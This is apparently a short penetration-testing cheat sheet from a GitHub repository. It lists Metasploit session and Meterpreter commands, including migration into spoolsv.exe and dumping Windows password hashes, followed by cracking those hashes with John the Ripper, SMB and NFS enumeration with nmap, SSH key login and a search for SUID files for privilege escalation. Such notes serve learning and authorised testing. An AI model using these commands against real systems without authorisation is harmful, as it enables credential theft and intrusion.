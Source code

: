 # Some useful commands for enumeration
First list all your sessions
```console
sessions 
```
Select the session that you wanna upgrade to meterpreter and run:
```console
session -u <number>
```
Another option is to use
```console
use post/multi/manage/shell_to_meterpreter
```

To choose get into the meterpreter session:
```console
sessions -i 2
```
Tip migration to spoolsv.exe (print service) is always advisable (due to stability)

To dump the hashes of Windows using the Meterpreter:
```console
hashdump
```

To crack the hash use:
```console
john john_hash --format=NT --wordlist=/usr/share/wordlist/rockyou.txt
```

To showed the cracked result:
```console
john john_hash --format=NT --show
```

To enumerate smb shares:
```console
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <target_ip>
```

To enumerate file system:
```console
nmap -p <number> --script=nfs-ls,nfs-statfs,nfs-showmount <target_ip>
```

# SSH commands
To login with a particular private key
```console
ssh -i id_rsa <username>@<target_ip>
```

# Search commands
To look for SUID (suid) bits enable:
```console
find / -perm -u=s -type f 2>/dev/null
```
